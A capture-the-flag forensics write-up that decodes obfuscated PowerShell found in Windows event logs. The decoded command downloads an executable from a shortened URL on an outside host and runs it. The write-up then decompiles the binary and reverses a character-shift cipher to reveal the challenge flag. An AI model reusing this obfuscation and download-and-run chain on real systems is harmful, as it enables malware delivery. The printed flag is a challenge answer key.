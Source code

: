 ![alt text](image-2.png)

In the `.evtx` file, I discovered very few PowerShell events which seemed obfuscated and suspicious. Putting the commands together results in:

```shell
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS";
```
To reverse the process, start by reversing the string. Then decode it in CyberChef using the `From Base64` function. This will reveal:

`Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"`

Here is again a Base64 string `aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag==` which after decoding becomes `https://shorturl.at/inyuj` .

Going to the link, you can download the executable used above in the obfuscated code. Running this program or putting it in Ghidra reveals nothing about its functionality. However, assuming it was probably C# I also tried to put the program in `dnSpy`. There I found the following code::

```C#
public static void td4306d885b1c98544112b830f9bd97c6()
	{
		string str = "";
		string text = "TFCCTF{fake_flag_haha}";
		int num = Strings.Len(text);
		checked
		{
			for (int i = 1; i <= num; i++)
			{
				str += Conversions.ToString(Strings.Chr(Strings.Asc(Strings.Mid(text, i, 1)) + 2));
			}
		}
	}
```

Running it reveals something similar to the parameter found in the event logs: `VHEEVH}x3uwcnad6u3eac3pvaj6tf`, thus I assumed this is some kind of "encryption" so I reversed the logic:

```C#
public static void Main(string[] args)
    {
        string str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"; 
        string result = "";
        int num = str.Length;
        for (int i = 0; i <num; i++)
        {
            result += ((char)(str[i] - 2)).ToString();
        }
        
        Console.WriteLine(result);
    }
```

`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`